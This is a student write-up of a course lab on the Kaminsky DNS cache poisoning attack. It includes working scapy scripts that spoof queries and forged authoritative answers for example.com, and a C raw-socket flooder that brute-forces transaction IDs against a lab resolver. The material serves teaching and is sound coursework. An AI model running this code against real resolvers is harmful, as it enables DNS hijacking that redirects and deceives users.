







# 50.020 Network Security lab 3 Kaminsky Attack - Writeup

## Task 1
### 2.4.1 Testing the DNS environment
- {width=50%}
- We see that the request is first sent to IP address `10.9.0.53`, which is the local DNS server, then forwarded to the Attacker's Name Server at `10.9.0.153`
- The Attacker's Name Server then gives us the IP address of `ns.attacker32.com` which is `10.9.0.153`
### 2.4.2 Testing with `example.com`
- <u>Official name server</u>
    - {width=50%}
    - We see that the request is first sent to the local DNS server at `10.9.0.53`, then forward to the official name server, which returns us 2 IP addresses for `example.com`, `42.99.140.137` and `42.99.140.192`. Its usual for a domain to have multiple IP addresses for load balancing and redundancy.
- <u>Attacker name server</u>
    - {width=50%}
    - We now see that the IP address we get for the same domain is now different, `1.2.3.5`.
    - The request is sent specifically to the Attacker's Name Server at `ns.attacker32.com` and since we cached it earlier, we contact its IP address directly, `10.9.0.153`.
    - {width=50%}
    - We see that in the attacker's zone file for `example.com`, the A record for `www.example.com` points to `1.2.3.5`.
    - This is the same as what we got from the dig command above, so we know the DNS environment is set up correctly.

## Task 2 Construct DNS requests
- We are asked to create a python script that can construct and send DNS requests to the local DNS server at `10.9.0.53`.
- Since we are running this script from the user container, ip address `10.9.0.5`, we will spoof the source IP address to be `10.9.0.1` which is the ip of the host VM.
- for `dport` we use `53` since that is the port used for DNS requests.
- for `sport` we can use any random short port.
- We use the `construct_dns_req.py` code below:
- ```python 
    from scapy.all import *
    import random

    spoof_vm_ip = '10.9.0.1' #spoofed ip
    local_dns_ip = '10.9.0.53' # ip of local dns server, this is not the attacker dns server

    Qdsec = DNSQR(qname=’example.com’) # DNS Question Record, asking for example.com
    dns = DNS(id=0xAAAA, qr=0, qdcount=1, ancount=0, nscount=0, arcount=0, qd=Qdsec)
    ip = IP(dst= local_dns_ip , src= spoof_vm_ip) # IP layer, set destination to local dns server and source to attacker vm
    udp = UDP(dport=53, sport=RandShort(), chksum=0) # UDP layer, set destination port to 53 (dns port) and source port to random short
    request = ip/udp/dns
    send(request)
    ```
- When we run the python code above, we see this in wireshark:
- 
- We see that the DNS request is sent from the spoofed ip address, the host VM at `10.9.0.1`, to the local DNS server at `10.9.0.53`, then the local DNS server will do a recursive query starting with the TLD server, `.com` in our case, the the authoritative name server for `example.com`, which we can see from our wireshark capture is `a.iana-servers.net` at `199.43.133.53 ` and `b.iana-servers.net` at `199.43.135.53`.
- We can also see that the response from the authoritative name server also contains the many IP addresses for `example.com`, we will enumerate them later.

## Task 3 Spoofing DNS responses
- The first step is to find out all the IP address of the name servers of `example.com`.
- We can do this by running `dig NS example.com`
- ```
    root@8f61466e44bd:~# dig NS example.com

    ; <<>> DiG 9.16.1-Ubuntu <<>> NS example.com
    ;; global options: +cmd
    ;; Got answer:
    ;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 31535
    ;; flags: qr rd ra; QUERY: 1, ANSWER: 2, AUTHORITY: 0, ADDITIONAL: 5

    ;; OPT PSEUDOSECTION:
    ; EDNS: version: 0, flags:; udp: 4096
    ; COOKIE: 17ffab0475c4a8960100000068eb9b95bb4b230f8e5bc939 (good)
    ;; QUESTION SECTION:
    ;example.com.			IN	NS

    ;; ANSWER SECTION:
    example.com.		85661	IN	NS	b.iana-servers.net.
    example.com.		85661	IN	NS	a.iana-servers.net.

    ;; ADDITIONAL SECTION:
    a.iana-servers.net.	1061	IN	A	199.43.135.53
    b.iana-servers.net.	1061	IN	A	199.43.133.53
    a.iana-servers.net.	1061	IN	AAAA	2001:500:8f::53
    b.iana-servers.net.	1061	IN	AAAA	2001:500:8d::53

    ;; Query time: 0 msec
    ;; SERVER: 10.9.0.53#53(10.9.0.53)
    ;; WHEN: Sun Oct 12 12:14:13 UTC 2025
    ;; MSG SIZE  rcvd: 204
    ```

- We see that the authoritative name servers for `example.com` are `a.iana-servers.net`, IP address `199.43.135.53` and `b.iana-servers.net`, IP address `199.43.133.53`.
- Now that we know the IP addresses of the authoritative name servers, we can proceed to spoof DNS responses.
- similar to task 2, we use 53 for `dport` when sending the IP address, and for `sport` when spoofing the response, since that is the port used for DNS requests.
- 
- We use the `spoof_dns_resp.py` code below:
- ```python
    from scapy.all import *

    local_dns_ip = '10.9.0.53' # ip of local dns server, this is not the attacker dns server
    ns_ip_addrs = ['199.43.135.53', '199.43.133.53'] # ip addresses of authoritative name servers for example.com
    domain = 'example.com' 
    name = 'www.example.com'
    ns_attacker = 'ns.attacker32.com' # attacker name server
    port = RandShort() # random source port

    #send spoofed responses 
    for ipns in ns_ip_addrs:
        Qdsec = DNSQR(qname=name)
        Anssec = DNSRR(rrname=name, type='A', rdata="1.2.3.5", ttl=259200)
        NSsec = DNSRR(rrname=domain, type='NS', rdata=ns_attacker, ttl=259200)
        dns = DNS(id=0xAAAA, aa=1, rd=1, qr=1, qdcount=1, ancount=1, nscount=1, arcount=0, qd=Qdsec, an=Anssec, ns=NSsec)
        ip = IP(dst=local_dns_ip, src=ipns)
        udp = UDP(dport=33333, sport=53, chksum=0)
        reply = ip/udp/dns
        send(reply)
    ```
- When we run the python code above, we see this in wireshark:
- 

- We see that in wireshark, the spoofed DNS response is sent from the ip addresses of the legitimate authoritative name servers, `199.43.135.53` and `199.43.133.53` to our local DNS server at `10.9.0.53` as per our code above, though it is replying to no one.
- We also see that the response announces that the authoritative name server for `example.com` is `ns.attacker32.com` which is our attacker's name server, as per the NS record in our code above.
- The response also contains an A record for `www.example.com` which points to `1.2.3.5` as per the A record in our code above.

## Task 4 Launching the Kaminsky Attack
- We will combine the code from task 2 and task 3 to launch the Kaminsky attack, together with the C code provided since python is too slow to carry out this attack.
- We will first use the python script an scapy to generate a DNS packet template, then store it in a file, then load this template into the C program, make some changes to the fields then send the packets out as fast as possible.
- We use this `dns_temaplate.py` code below to generate the DNS request and spoofed response packets, then store them in `ip_req.bin` and `ip_resp.bin` files respectively.
- ```python
    from scapy.all import *
    import random

    spoof_vm_ip = '10.9.0.1' #spoofed ip
    local_dns_ip = '10.9.0.53' # ip of local dns server, this is not the attacker dns server
    ns_ip_addrs = ['199.43.135.53', '199.43.133.53'] # ip addresses of authoritative name servers for example.com
    domain = 'example.com' 
    name = 'aaaaa.example.com'
    ns_attacker = 'ns.attacker32.com' # attacker name server
    port = RandShort() # random source port
    # DNS query
    Qdsec = DNSQR(qname=name) # DNS Question Record, asking for example.com
    dns = DNS(id=0xAAAA, qr=0, qdcount=1, ancount=0, nscount=0, arcount=0, qd=Qdsec)
    ip = IP(dst= local_dns_ip , src= spoof_vm_ip) # IP layer, set destination to local dns server and source to attacker vm
    udp = UDP(dport=53, sport=33333, chksum=0) # UDP layer, set destination port to 53 (dns port) and source port to random short
    request = ip/udp/dns
    send(request)
    # Save the packet to a file
    with open('ip_req.bin', 'wb') as f:
        f.write(bytes(request))

    # Spoofed DNS reply
    Qdsec = DNSQR(qname=name)
    Anssec = DNSRR(rrname=name, type='A', rdata="1.2.3.5", ttl=259200)
    NSsec = DNSRR(rrname=domain, type='NS', rdata=ns_attacker, ttl=259200)
    dns = DNS(id=0xAAAA, aa=1, rd=1, qr=1, qdcount=1, ancount=1, nscount=1, arcount=0,
        qd=Qdsec, an=Anssec, ns=NSsec)
    ip = IP(dst=local_dns_ip, src=ns_ip_addrs[0])
    udp = UDP(dport=33333, sport=53, chksum=0)
    reply = ip/udp/dns
    with open('ip_resp.bin', 'wb') as f:
        f.write(bytes(reply))
    ```
- Then in the C code, we will load the request packet template from `ip_req.bin`, and the spoofed response packet template from `ip_resp.bin`. 
- For each response, we will change 3 values, transaction ID (+28 offset from start of IP packet), and the prefix name, `prefix.example.com`. The prefix name occurs in 2 places, in the question section and in the answer section, which is at offset +40 and +61 respectively from the start of the IP packet.
- The C code is as below:
- ```c
    #include <stdlib.h>
    #include <arpa/inet.h>
    #include <string.h>
    #include <stdio.h>
    #include <unistd.h>
    #include <time.h>

    #define MAX_FILE_SIZE 1000000


    /* IP Header */
    struct ipheader {
    unsigned char      iph_ihl:4, //IP header length
                        iph_ver:4; //IP version
    unsigned char      iph_tos; //Type of service
    unsigned short int iph_len; //IP Packet length (data + header)
    unsigned short int iph_ident; //Identification
    unsigned short int iph_flag:3, //Fragmentation flags
                        iph_offset:13; //Flags offset
    unsigned char      iph_ttl; //Time to Live
    unsigned char      iph_protocol; //Protocol type
    unsigned short int iph_chksum; //IP datagram checksum
    struct  in_addr    iph_sourceip; //Source IP address 
    struct  in_addr    iph_destip;   //Destination IP address 
    };

    void send_raw_packet(char * buffer, int pkt_size);
    void send_dns_request( );
    void send_dns_response( );

    int main()
    {
    srand(time(NULL));

    // Load the DNS request packet from file
    FILE * f_req = fopen("ip_req.bin", "rb");
    if (!f_req) {
        perror("Can't open 'ip_req.bin'");
        exit(1);
    }
    unsigned char ip_req[MAX_FILE_SIZE];
    int n_req = fread(ip_req, 1, MAX_FILE_SIZE, f_req);

    // Load the first DNS response packet from file
    FILE * f_resp = fopen("ip_resp.bin", "rb");
    if (!f_resp) {
        perror("Can't open 'ip_resp.bin'");
        exit(1);
    }
    unsigned char ip_resp[MAX_FILE_SIZE];
    int n_resp = fread(ip_resp, 1, MAX_FILE_SIZE, f_resp);

    char a[26]="abcdefghijklmnopqrstuvwxyz";

    while (1) {
        // Generate a random name with length 5
        char name[5];
        for (int k=0; k<5; k++)  name[k] = a[rand() % 26];
        //##################################################################
        /* Step 1. Send a DNS request to the targeted local DNS server.
                This will trigger the DNS server to send out DNS queries */

        // Modify the name in the question field (offset=41)
        memcpy(ip_req+41, name , 5);
        send_dns_request(ip_req, n_req);

        /* Step 2. Send many spoofed responses to the targeted local DNS server,
                each one with a different transaction ID. */
        
        // Modify the name in the question field (offset=41)
        memcpy(ip_resp+41, name, 5);
        // Modify the name in the answer field (offset=64)
        memcpy(ip_resp+64, name , 5);

        send_dns_response(ip_resp, n_resp);
        //##################################################################
    }
    }

    /* Use for sending DNS request.
    * Add arguments to the function definition if needed.
    * */
    void send_dns_request(unsigned char *packet, int pkt_size)
    {
    printf("Sending spoofed query!\n");
    send_raw_packet(packet, pkt_size);
    }


    /* Use for sending forged DNS response.
    * Add arguments to the function definition if needed.
    * */
    void send_dns_response(unsigned char *packet, int pkt_size)
    {
    char ns[15] = "199.43.133.53";
    char ns2[15] = "199.43.135.53";

    for (unsigned short id = 0; id < 65535; id++) {
        // Modify the transaction ID field (offset=28)
        unsigned short id_net_order = htons(id);
        memcpy(packet+28, &id_net_order, 2);

        // Copy IP address (offset=12)
        int ip_address = (int) inet_addr(ns);
        memcpy(packet+12, (void *) &ip_address, 4);
        send_raw_packet(packet, pkt_size);

        // Copy IP address (offset=12)
        int ip_address2 = (int) inet_addr(ns2);
        memcpy(packet+12, (void *) &ip_address2, 4);
        send_raw_packet(packet, pkt_size);
    }
    }


    /* Send the raw packet out 
    *    buffer: to contain the entire IP packet, with everything filled out.
    *    pkt_size: the size of the buffer.
    * */
    void send_raw_packet(char * buffer, int pkt_size)
    {
    struct sockaddr_in dest_info;
    int enable = 1;

    // Step 1: Create a raw network socket.
    int sock = socket(AF_INET, SOCK_RAW, IPPROTO_RAW);

    // Step 2: Set socket option.
    setsockopt(sock, IPPROTO_IP, IP_HDRINCL,
        &enable, sizeof(enable));

    // Step 3: Provide needed information about destination.
    struct ipheader *ip = (struct ipheader *) buffer;
    dest_info.sin_family = AF_INET;
    dest_info.sin_addr = ip->iph_destip;

    // Step 4: Send the packet out.
    sendto(sock, buffer, pkt_size, 0,
        (struct sockaddr *)&dest_info, sizeof(dest_info));
    close(sock);
    }
    ```
- We compile the C code above using `gcc -o kaminsky kaminsky.c` and run it using `./kaminsky` in the user container `10.9.0.5`
- Then we check the cache of the local DNS server at `10.9.0.53` using `rndc dumpdb -cache && grep attacker /var/cache/bind/dump.db` as per the instructions.
- 
- We see that the attack is successful since the local DNS server's cache states that the name server for `example.com` is now `ns.attacker32.com`, which is the attacker's name server.

## Task 5 Verifying the attack
- We run the command `dig www.example.com` and `dig @ns.attacker32.com www.example.com`
- 
- we see that the outputs are the same for both, indicating that the attack was successful.
- Then when we run `dig NS example.com` and sniff the packets using wireshark, we see that the local DNS server, `10.9.0.53` now queries the attacker's name server, `10.9.0.153` for the name server of `www.example.com`. This confirms that the Kaminsky attack was successful.
- 


